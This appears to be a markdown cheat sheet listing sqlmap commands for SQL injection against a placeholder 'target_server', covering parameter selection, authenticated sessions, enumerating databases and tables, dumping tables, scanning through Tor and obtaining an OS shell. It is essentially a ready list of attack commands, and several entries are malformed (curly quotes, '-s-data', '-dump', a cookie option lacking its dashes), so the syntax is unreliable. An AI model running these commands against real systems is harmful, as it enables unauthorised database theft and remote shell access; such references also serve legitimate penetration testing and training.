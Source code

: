 # Cheat sheet for sqlmap


|Description    |Usage  |
|---------------|-------|
|Simple usage   |sqlmap -u “http://target_server/”|
|Specify target DBMS to MySQL| sqlmap -u “http://target_server/” --dbms=mysql|
|Using a proxy| sqlmap -u “http://target_server/” --proxy=http://proxy_address:port|
|Specify param1 to exploit| sqlmap -u “http://target_server/param1=value1&param2=value2” -p param1|
|Use POST requests| sqlmap -u “http://target_server” --data=param1=value1&param2=value2|
|Access with authenticated session| sqlmap -u “http://target_server” --data=param1=value1&param2=value2 -p param1 cookie=’my_cookie_value’|
|Basic authentication| sqlmap -u “http://target_server” -s-data=param1=value1&param2=value2 -p param1--auth-type=basic --auth-cred=username:password|
|Evaluating response strings| sqlmap -u “http://target_server/” --string=”This string if query is TRUE” <br/>sqlmap -u “http://target_server/” --not-string=”This string if query is FALSE”|
|List databases| sqlmap -u “http://target_server/” --dbs|
|List tables of database target_DB| sqlmap -u “http://target_server/” -D target_DB --tables|
|Dump table target_Table of database target_DB| sqlmap -u “http://target_server/” -D target_DB -T target_Table -dump|
|List columns of table target_Table of database target_DB| sqlmap -u “http://target_server/” -D target_DB -T target_Table --columns|
|Scan through TOR| sqlmap -u “http://target_server/” --tor --tor-type=SOCKS5|
|Get OS Shell| sqlmap -u “http://target_server/” --os-shell|
